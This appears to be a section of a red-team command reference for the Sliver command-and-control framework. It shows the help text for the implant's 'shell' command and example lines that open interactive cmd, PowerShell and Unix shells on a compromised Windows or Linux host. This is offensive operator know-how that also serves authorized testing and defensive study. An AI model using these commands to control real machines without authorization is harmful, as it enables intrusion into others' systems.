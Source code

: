 # 14 - Spawn Shell

Search Tag(s): #sliver #command-and-control #interactive-shell

### 14.1 - Help Menu

```
sliver (IMPLANT_NAME) > shell -h

Start an interactive shell

Usage:
======
  shell [flags]

Flags:
======
  -h, --help                 display help
  -y, --no-pty               disable use of pty on macos/linux
  -s, --shell-path string    path to shell interpreter
  -t, --timeout    int       command timeout in seconds (default: 60)
```

### 14.2 - Usage

#### 14.2.1 - Windows

```
sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\System32\\cmd.exe"

sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\System32\\WindowsPowershell\\v1.0\\powershell.exe"

sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\SysWOW64\\WindowsPowershell\\v1.0\\powershell.exe"
```

#### 14.2.2 - Linux

```
sliver (IMPLANT_NAME) > shell -y -s /bin/sh

sliver (IMPLANT_NAME) > shell -y -s /bin/bash

sliver (IMPLANT_NAME) > shell -y -s /bin/zsh

sliver (IMPLANT_NAME) > shell -y -s /bin/dash

sliver (IMPLANT_NAME) > shell -y -s /bin/fish
```